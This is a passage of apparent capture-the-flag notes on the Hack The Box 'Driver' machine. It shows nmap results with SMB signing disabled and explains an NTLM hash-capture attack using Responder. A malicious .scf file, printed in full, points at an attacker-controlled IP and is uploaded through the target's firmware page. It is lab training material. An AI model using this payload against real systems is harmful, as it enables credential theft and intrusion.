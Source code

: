 #  Initial shell as 'tony' user
## From [[Driver/10 - Common Enumeration]] it is discovered that SMB signing is disabled
From [[Driver/10 - Common Enumeration]] it is discovered that SMB signing is disabled.
```bash
Host script results:
|_clock-skew: mean: 6h59m29s, deviation: 3s, median: 6h59m26s
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.10:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-10-04T17:41:25
|_  start_date: 2021-10-04T14:45:24

TRACEROUTE (using port 135/tcp)
HOP RTT       ADDRESS
1   213.88 ms 10.10.14.1
2   213.94 ms 10.10.11.106

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.56 seconds
```
Also from crackmapexec,
![[Pasted image 20211007183540.png]]
## If SMB signing is disabled we can do NTLM relay attack
If SMB signing is disabled we can do NTLM relay attack to get user hash.To perform this attack we will first start `responder` tool in and on http://10.10.11.106/fw_up.php we will upload Shell Command File `.scf` file with following contents 
```bash
[Shell]

Command=2

IconFile=\\10.10.14.98\share\dfsdfsdf.scf

[Taskbar]

Command=ToggleDesktop
```
Note: SCF (Shell Command Files) files can be used to perform a limited set of operations such as showing the Windows desktop or opening a Windows explorer. However a SCF file can be used to access a specific UNC path which allows the penetration tester to build an attack. The code below can be placed inside a text file which then needs to be planted into a network share as explained in [link](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/).
As soon as we upload a `.scf.` with  filename starting from `@` (so that file is placed first in folder and executed as soon as it is uploaded).
## Uploading `.scf` to get NTLM Hash
